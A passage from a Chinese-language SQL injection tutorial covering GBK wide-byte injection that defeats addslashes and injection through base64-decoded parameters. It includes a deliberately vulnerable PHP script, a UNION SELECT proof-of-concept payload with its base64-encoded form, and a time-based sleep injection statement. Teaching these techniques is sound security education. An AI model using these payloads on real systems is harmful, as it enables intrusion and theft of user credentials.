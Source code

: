 因为`錦`的`utf-8`编码为`0xe98ca6`，`GBK` 编码为`0xe55c` ，也就是说，在`錦`被`iconv`从`utf-8`转换成`gbk`后，变成了`%e5%5c`，而后面的`'`被`addslashes`变成了`%5c%27`，这样组合起来就是`%e5%5c%5c%27`，两个`%5c`就是`\`，正好与后面的`\`组合为`\\`，导致`'`逃逸出单引号，产生注入，数据库中实际执行的语句为：

```text
select * from users where id='1\\' and sleep(5) -- '
```

**Base64注入：**

如下代码：

```text
<?php
  $id = base64_decode($_GET['id']);
  $id = urldecode($id);
  $con=mysqli_connect("localhost","root","root","test");
  if (mysqli_connect_errno())
  {
  	echo "连接失败: " . mysqli_connect_error();
  }
  $result=mysqli_query($con,"select * from users where id='".$id."' ");
  if (!$result) {
    printf("Error: %s\n", mysqli_error($con));
    exit();
  }
  $row = mysqli_fetch_array($result);
  echo $row['username'] . " : " . $row['password'];
  echo "<br>";
?>
```

我们可以从代码得知，代码除了对`GET` 参数`id` 进行了`base64` 加密处理，并未做其他限制，例如我们知道，`1` 经`base64` 编码后结果为`MQ==` ，我们可以进行访问:



![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LrgrGdGxHJRhY-L_jYq%2F-LtXyl-GHFJJaWyX0BcD%2F-LtYJ8Ih-Yp5jAbluabl%2F%E5%9B%BE%E7%89%87.png?alt=media&token=8af70fdc-ebd1-4900-a5eb-3aa094a207f5)

我们看到，正常的查询到了`id` 为`1` 的数据，由上面可知，注入POC：

```text
-1' union select 1,user(),3 #
```

由于代码中会对传入参数解密一次，因此我们先将POC通过`base64` 加密一次：

```text
LTElMjclMjB1bmlvbiUyMHNlbGVjdCUyMDElMkN1c2VyJTI4JTI5JTJDMyUyMCUyMw==
```

![](../../../.gitbook/assets/tu-pian%20%28111%29.png)

**XFF注入：**
